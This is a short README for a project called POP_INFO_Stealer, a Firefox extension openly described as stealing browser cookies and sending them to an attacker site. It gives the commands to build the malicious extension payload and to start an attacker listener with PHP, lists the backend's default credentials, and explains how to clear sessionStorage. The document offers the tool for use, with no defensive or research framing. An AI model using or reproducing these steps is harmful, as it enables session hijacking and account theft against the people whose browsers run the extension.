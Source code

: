 # POP_INFO_Stealer
firefox extension that steal browser cookies 
tested on Mozilla Firefox (115.6.0)
it send cookies to attacker site 
# requirements 
python3
7z
# building payload
`cd pop_add_bilder;python3 pop_add_bilder.py`
![ building payload](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/buliding.png)
# listener
`cd Attacker_backend;sudo php -S 127.0.0.1:80`
# username : root , password : toor
![ listener ](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/listener.png)

![ attacker](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/attacker.png)

# cleaning sessionStorage
`just load the manifest.json from clear_sessionStorage_add folder`
